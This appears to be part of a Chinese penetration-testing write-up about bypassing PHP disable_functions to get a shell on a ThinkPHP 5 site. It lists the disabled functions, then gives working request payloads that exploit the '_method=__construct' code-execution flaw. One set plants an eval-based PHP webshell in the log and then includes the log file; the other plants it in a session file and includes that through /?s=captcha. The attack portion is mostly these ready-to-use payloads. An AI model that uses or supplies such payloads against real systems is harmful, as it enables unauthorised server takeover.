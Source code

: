    ```
    
    
    1.  `passthru,exec,system,chroot,chgrp,chown,shell_exec,proc_open,proc_get_status,popen,ini_alter,ini_restore,dl,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server`
    
    
    ```
    
*   php 7.1.7 (虽然`assert` 函数不在disable\_function中，但已经无法用`call_user_func`回调调用)
    

0x02 突破
-------

现在tp 5 method代码执行开发出来的一些思路，不外乎如下两种：

1，写日志，包含日志 getshell 。payload如下：

```


1.  `写shell进日志  
    `
2.  `_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=<?php eval($_POST['x'])?>`

4.  `通过日志包含getshell  
    `
5.  `_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../data/runtime/log/201901/21.log&x=phpinfo();`


```

2，写session，包含session getshell。payload如下：

```


1.  `写shell进session  
    `
2.  `POST /?s=captcha HTTP/1.1  
    `
3.  `Cookie: PHPSESSID=kking`

5.  `_method=__construct&filter[]=think\Session::set&method=get&get[]=<?php eval($_POST['x'])?>&server[]=1`

7.  `包含session getshell  
    `
8.  `POST /?s=captcha`

10.  `_method=__construct&method=get&filter[]=think\__include_file&get[]=tmp\sess_kking&server[]=1`


```
